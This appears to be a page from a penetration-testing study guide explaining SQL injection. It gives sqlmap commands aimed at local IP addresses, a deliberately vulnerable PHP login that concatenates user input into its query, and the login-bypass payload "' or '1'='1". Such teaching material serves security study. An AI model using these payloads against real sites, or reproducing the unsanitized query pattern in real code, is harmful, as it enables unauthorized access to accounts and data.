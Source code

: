 SQL-Injections · Total OSCP Guide

# SQL-injections

## Tldr

	 # Post
	./sqlmap.py -r request.txt -p username

	# Get
	sqlmap -u "http://192.168.1.101/index.php?id=1" --dbms=mysql

	# Crawl
	sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3

## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

	 mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

	mysql_select_db("myHomepage");

	if ($_POST['uname'] != ""){
	    $username = $_POST['username'];
	    $password = $_POST['password'];
	    $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
	    $result = mysql_query($query);
	    $row = mysql_fetch_array($result);
	}

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

	 whatever' or '1'='1
	whatever' or '1'='1

The query will look like this:

	 $query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";

Since they both become true the database will retrieve all users and we will be able to bypass the login.

If you know the username you could of course use that and then only inject on the password parameter.

